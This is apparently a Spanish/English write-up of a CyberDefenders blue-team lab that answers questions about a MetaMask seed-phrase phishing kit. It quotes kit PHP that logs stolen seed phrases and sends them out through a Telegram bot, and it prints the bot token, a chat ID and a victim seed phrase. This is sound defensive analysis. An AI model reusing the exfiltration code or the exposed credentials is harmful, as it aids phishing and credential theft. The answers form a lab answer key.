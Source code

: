 # GrabThePhisher 

## Category: Threat Intel

[link del laboratorio GrabThePhisher](https://cyberdefenders.org/blueteam-ctf-challenges/grabthephisher/)

---

## Descargar laboratorio y moverlo a la máquina virtual REMnux

### unzip lab

```bash
7z x 95-GrabThePhisher.zip -pcyberdefenders.org
```
---


## Preguntas

### Q1

Which wallet is used for asking the seed phrase?

¿Qué monedero se utiliza para pedir la frase semilla?

![first question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab1.png)

#### Respuesta

`Metamask`

### Q2

What is the file name that has the code for the phishing kit?

¿Cuál es el nombre del archivo que contiene el código del kit de phishing?

#### Respuesta

`metamask.php`

### Q3

In which language was the kit written?

¿En qué lenguaje fue desarrollado el kit?


#### Respuesta

`php`


### Q4


What service does the kit use to retrieve the victim's machine information?

¿Qué servicio utiliza el kit para recuperar la información de la máquina de la víctima?


![fourth question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab2.png)

#### Respuesta

`sypex geo`

### Q5

How many seed phrases were already collected?

¿Cuántas frases con semilla se han recopilado ya?

*En el código se puede ver que las frases semilla se escriben en un archivo log.txt*

```php
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND); 
```

![fifth question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab3.png)

#### Respuesta

`3`

### Q6

Write down the seed phrase of the most recent phishing incident

Escriba la frase semilla del incidente de phishing más reciente

#### Respuesta

```bash
father also recycle embody balance concert mechanic believe owner pair muffin hockey 
```

### Q7

Which medium had been used for credential dumping?

¿Qué medio se había utilizado para el robo de credenciales?

*Línea de código presente en el archivo metamask.php*

```php
$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html"; 
```

#### Respuesta

`telegram`

### Q8

What is the token for the channel?

¿Cuál es el token del canal?

*Línea de código presente en el archivo metamask.php*

```php
$token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
```

#### Respuesta

`5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10`


### Q9

What is the chat ID of the phisher's channel?

¿Cuál es el ID de chat del canal del autor del phishing?

*Línea de código presente en el archivo metamask.php*

```php
$id = "5442785564"; 
```

#### Respuesta

`5442785564`

### Q10

What are the allies of the phish kit developer?

¿Cuáles son los aliados del desarrollador del kit de phishing?


*Comentario encontrado en el código fuente del archivo metamask.php*

```php
/*

 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
*/  
```

#### Respuesta

`j1j1b1s@m3r0`

### Q11

What is the full name of the Phish Actor?

¿Cuál es el nombre completo del creador del phishing?

```bash
curl https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat\?chat_id\=5442785564 | jq 
```


```bash
{
  "ok": true,
  "result": {
    "id": 5442785564,
    "first_name": "Marcus",
    "last_name": "Aurelius",
    "username": "pumpkinboii",
    "type": "private",
    "active_usernames": [
      "pumpkinboii"
    ],
    "max_reaction_count": 11,
    "accent_color_id": 6
  }
}  
```

#### Respuesta

`Marcus Aurelius`


### Q12

What is the username of the Phish Actor?

¿Cuál es el nombre de usuario del creador del phishing?

```bash  
"active_usernames": [
      "pumpkinboii"
    ],
```

#### Respuesta

`pumpkinboii`

